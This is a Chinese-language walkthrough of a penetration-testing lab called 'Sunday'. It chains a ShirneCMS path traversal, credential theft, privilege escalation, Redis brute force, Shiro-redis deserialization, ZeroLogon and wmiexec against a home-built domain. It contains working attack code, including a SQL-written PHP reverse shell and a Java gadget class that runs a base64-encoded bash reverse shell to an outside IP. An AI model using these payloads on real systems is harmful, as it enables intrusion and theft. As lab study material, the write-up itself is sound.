





# 域渗透实战之Sunday - 先知社区

域渗透实战之Sunday

- - -

# 环境搭建：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214127-aff1717a-7a4e-1.png)

## 搭建过程：

首先去配置web的网卡：ip为192.168.10.175

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214136-b56b9734-7a4e-1.png)

web123：ip为192.168.10.174

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214229-d4ea8dd6-7a4e-1.png)

在pc1上配置双网卡。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214239-dab8fdd8-7a4e-1.png)

在ad2012上配置网段信息为10段

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214247-dfe8ec82-7a4e-1.png)

配置域控ad12为10.10.10.137

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214256-e53ece5e-7a4e-1.png)

# web打点

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214304-e9e1dd3e-7a4e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214312-eea68a9a-7a4e-1.png)

## 信息收集

访问192.168.10.174.发现该cms为ShirneCMS

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214321-f3db66ca-7a4e-1.png)

## 端口扫描

发现其开放了80端口和22端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214329-f8f77bb2-7a4e-1.png)

## CVE-2022-37299

### 漏洞原理：

在ueditor编辑器中 file\_get\_contents没有传⼊的参数进⾏过滤 导致可以使⽤伪协议读取⽂件

### 代码分析：

在文件中，作者添加了导致路径遍历问题的代理函数，并且可以读取安装了CMS的系统上的任何文件。/static/ueditor/php/controller.php

```plain
if(strlen($data) > 100){
 header("Content-type: image/jpeg");
 if($maxwidth > 0){
 $image = imagecreatefromstring($data);
 if($image){
 $width = imagesx($image);
 $height = imagesy($image);
 $sw=0;
 if($width > $height){
 if($width > $maxwidth){
 $sw = $maxwidth;
 $sh = $height * $sw / $width;
 }
 }else{
 if($height > $maxwidth){
 $sh = $maxwidth;
 $sw = $width * $sh / $height;
 }
 }
 if($sw > 0){
 $newimage = imagecreatetruecolor($sw,$sh);
 imagecopyresampled($newimage, $image, 0, 0, 0, 0, $sw, $sh,
$width, $height);
 imagejpeg($newimage,null,70);
 imagedestroy($newimage);
 }else{
 imagejpeg($image,null,70);
 }
 imagedestroy($image);
 }
 }else{
 echo $data;
 }
}
```

CVE漏洞搜索发现其存在目录遍历漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214352-06a98e30-7a4f-1.png)

然后利用其来读取配置文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214423-190defc6-7a4f-1.png)

使用base64进行解码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214438-220479ce-7a4f-1.png)

成功解密用户名和密码。

```plain
<?php
// +----------------------------------------------------------------------
// | ThinkPHP [ WE CAN DO IT JUST THINK ]
// +----------------------------------------------------------------------
// | Copyright (c) 2006~2018 http://thinkphp.cn All rights reserved.
// +----------------------------------------------------------------------
// | Licensed ( http://www.apache.org/licenses/LICENSE-2.0 )
// +----------------------------------------------------------------------
// | Author: liu21st <liu21st@gmail.com>
// +----------------------------------------------------------------------

return [
    // 数据库类型
    'type'            => 'mysql',
    // 服务器地址
    'hostname'        => 'localhost',
    // 数据库名
    'database'        => 'cms',
    // 用户名
    'username'        => 'root',
    // 密码
    'password'        => 'vVICDU1Erw',
    // 端口
    'hostport'        => '',
    // 连接dsn
    'dsn'             => '',
    // 数据库连接参数
    'params'          => [],
    // 数据库编码默认采用utf8
    'charset'         => 'utf8mb4',
    // 数据库表前缀
    'prefix'          => 'sa_',
    // 数据库调试模式
    'debug'           => true,
    // 数据库部署方式:0 集中式(单一服务器),1 分布式(主从服务器)
    'deploy'          => 0,
    // 数据库读写是否分离 主从式有效
    'rw_separate'     => false,
    // 读写分离后 主服务器数量
    'master_num'      => 1,
    // 指定从服务器序号
    'slave_no'        => '',
    // 自动读取主库数据
    'read_master'     => false,
    // 是否严格检查字段是否存在
    'fields_strict'   => true,
    // 数据集返回类型
    'resultset_type'  => 'array',
    // 自动写入时间戳字段
    'auto_timestamp'  => false,
    // 时间字段取出后的默认时间格式
    'datetime_format' => false,
    // 是否需要进行SQL性能分析
    'sql_explain'     => false,
    // Builder类
    'builder'         => '',
    // Query类
    'query'           => '\\think\\db\\Query',
    // 是否需要断线重连
    'break_reconnect' => false,
    // 断线标识字符串
    'break_match_str' => [],
];
```

## 登录phpadmin

使用解密出的用户名和密码进行登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214502-30511956-7a4f-1.png)

## 读取/etc/password。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214512-35f615dc-7a4f-1.png)

## 查找用户名和密码

在数据库中，发现系统登录用户名和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214519-3a7e1028-7a4f-1.png)

使用admin 1lovehackers进行登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214527-3f5a337e-7a4f-1.png)

## 获取webshell

首先去尝试写入phpinfo

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214537-45544af8-7a4f-1.png)

## 文件包含漏洞

然后在添加分类当中使用目录遍历写入tmp文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214545-499d4e98-7a4f-1.png)

写入payload，然后保存，进行反弹shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214554-4f397a3e-7a4f-1.png)

## 反弹shell

使用nc进行反弹shell。  
select '<?php system("bash -c \\'bash -i >& /dev/tcp/192.168.10.128/2333 0>&1\\'"); ?>' into outfile '/tmp/view.tpl'

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214700-76895ff0-7a4f-1.png)

# 内网渗透

## 权限提升

发现 是ubuntu16.04 版本 ，提权exp ：[https://github.com/luijait/PwnKit-Exploit](https://github.com/luijait/PwnKit-Exploit)  
使用wget进行下载。  
wget 192.168.10.128/home/kali/PwnKit-Exploit-main/exploit.c  
然后发现没有提权成功。

## msf提权

接着使用msf进行权限提升

## 设置监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214721-834ad9d0-7a4f-1.png)

使用explot模块。然后进行提权。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214729-878cc1a2-7a4f-1.png)

成功获取root权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214736-8c2394ca-7a4f-1.png)

然后接着查看路由信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214743-8ff55b10-7a4f-1.png)

## 搭建代理

使用frp+msf进行隧道搭建。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214750-947f08f2-7a4f-1.png)

设置代理地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214758-99541b9c-7a4f-1.png)

## 内网信息收集

fscan扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214806-9e28217c-7a4f-1.png)

使用nmap进行扫描，发现存在6379和8080端口开放。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214813-a24b077e-7a4f-1.png)

访问8080端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214820-a6243e2e-7a4f-1.png)

redis未授权访问密码爆破

## 爆破redis密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214827-aaaa77ba-7a4f-1.png)

成功登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214835-af6e9042-7a4f-1.png)

访问8080端口，使用默认密码登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214844-b4cf44d2-7a4f-1.png)

## Java代码审计：

shiro redis 反序列化  
通过搜索引擎找到此源码 [https://github.com/alexxiyang/shiro-redis-spring-tutorial](https://github.com/alexxiyang/shiro-redis-spring-tutorial)  
下载到本地⽤idea开分析  
org/crazycake/shiro/serializer/ObjectSerializer.java

```plain
@Override
public Object deserialize(byte[] bytes) throws SerializationException
{
Object result = null;
if (bytes == null || bytes.length == 0) {
return result;
}
try {
ByteArrayInputStream byteStream = new ByteArrayInputStream(byt
es);
ObjectInputStream objectInputStream = new MultiClassLoaderObje
ctInputStream(byteStream);
result = objectInputStream.readObject();
} catch (IOException e) {
throw new SerializationException("deserialize error", e);
} catch (ClassNotFoundException e) {
throw new SerializationException("deserialize error", e);
}
return result;
这⾥存在反序列化，发现deserialize被get调⽤
org/crazycake/shiro/RedisCache.java
@Override
public V get(K key) throws CacheException {
logger.debug("get key [" + key + "]");
if (key == null) {
return null;
}
try {
Object redisCacheKey = getRedisCacheKey(key);
byte[] rawValue = redisManager.get(keySerializer.serialize(redisCach
eKey));
if (rawValue == null) {
return null;
}
V value = (V) valueSerializer.deserialize(rawValue);
return value;
} catch (SerializationException e) {
throw new CacheException(e);
}
}
```

在获取缓存的时候调⽤反序列化还原对象，查看redis缓存内容是反序列化格式。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214856-bbd3a7aa-7a4f-1.png)

从依赖中看到 cb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214906-c1c31ef2-7a4f-1.png)

## exp编写

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class Evil extends AbstractTranslet {
public void transform(DOM document, SerializationHandler[] handlers) t
hrows TransletException {}
public void transform(DOM document, DTMAxisIterator iterator, Serializ
ationHandler handler) throws TransletException {}
public Evil() throws Exception {
Process p = null;
try {
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvd
GNwLzEwMy4xNDguMjQ0LjE1MS84ODc3IDA+JjE=}|{base64,-d}|{bash,-i}");
p.waitFor();
} catch (Exception e) {
e.printStackTrace();
}
}
}
```

在redisdb中写入session

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214918-c8969df8-7a4f-1.png)

然后使用bash进行反弹shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214924-cc530cec-7a4f-1.png)

发现成功写入了key。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214930-d018fbac-7a4f-1.png)

然后抓包去触发。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214938-d47033c8-7a4f-1.png)

## msf上线

上传msf的木马，接着进行上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214946-d9a4956e-7a4f-1.png)

成功上线。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103214955-df12fe6e-7a4f-1.png)

发现root.txt。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215003-e3ce0b56-7a4f-1.png)

## 文件搜索

翻文件翻到存在id\_rsa

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215248-45c5775e-7a50-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215304-4f7d05f0-7a50-1.png)

## 横向PC1主机

使用ssh进行连接。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215317-571b567c-7a50-1.png)

添加权限之后，成功进行连接。获取到另一个root.txt.

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215327-5d78deb8-7a50-1.png)

发现其为双网卡机器。判断其存在域环境。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215352-6c3f984c-7a50-1.png)

# 域渗透

使用fscan进行扫描，发现其存在域控。  
域控ip为：10.10.10.133

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215405-73d7101c-7a50-1.png)

## 获取域控权限

ZeroLogon(CVE-2020-1472) 提权域控  
发现该主机存在ZeroLogon置空漏洞。  
使用脚本进行域控密码置空。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215415-7a05229e-7a50-1.png)

## 获取管理员hahsh

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215443-8aa6f9d8-7a50-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215433-84a7c1de-7a50-1.png)

## wmiexec横向移动

使用wmiexec进行横向移动到域控。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215453-90afdcc8-7a50-1.png)

接着使用wmiexec进行横向移动到exchange主机。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103215502-95fbe14a-7a50-1.png)
